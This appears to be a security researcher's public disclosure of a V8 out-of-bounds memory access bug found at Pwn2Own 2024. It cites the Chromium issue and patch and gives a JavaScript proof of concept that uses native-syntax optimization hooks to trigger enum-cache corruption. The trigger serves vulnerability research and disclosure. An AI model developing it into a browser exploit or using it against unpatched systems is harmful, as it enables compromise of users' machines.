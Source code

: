 author: [@buptsb](https://x.com/buptsb)
2024-04-03 16:06:14
https://x.com/buptsb/status/1775434620554850693

_This PoC is the FIRST public disclosure for this vulnerability._

# Info

Out of bounds memory access in V8. Reported by Edouard Bochin (@le_douds) and Tao Yan (@Ga1ois) of Palo Alto Networks, via Pwn2Own 2024 on 2024-03-22 
“earning $42,500 and 9 Master of Pwn points” https://twitter.com/thezdi/status/1770927914831274115
https://chromereleases.googleblog.com/2024/04/stable-channel-update-for-desktop.html
https://issues.chromium.org/issues/330760873
https://chromium-review.googlesource.com/c/v8/v8/+/5388435

Related to CVE-2023-4427 enum cache indices array out of bound access

## PoC
```js
const object1 = {};
object1.a = 1;

const object2 = {};
object2.a = 1;
object2.b = 1;

const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;
Object.defineProperty(object3, "d", {writable: false, enumerable: true, value: 1});

// create a split branch in map transition tree
const object4 = {};
object4.a = 1;
object4.b = 1;
object4.c = 1;
object4.d = 1;

for (let key in object3) { }

delete object3.d;

let escape;
function trigger(callback) {
  for (let key in object2) {
  	callback();
  	escape = object2[key];
  }
}

%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
	object4.c = 1.1;
	for (let key in object1) { }
});

// %SystemBreak();
```

<!-- ##{"timestamp":1712131574}## -->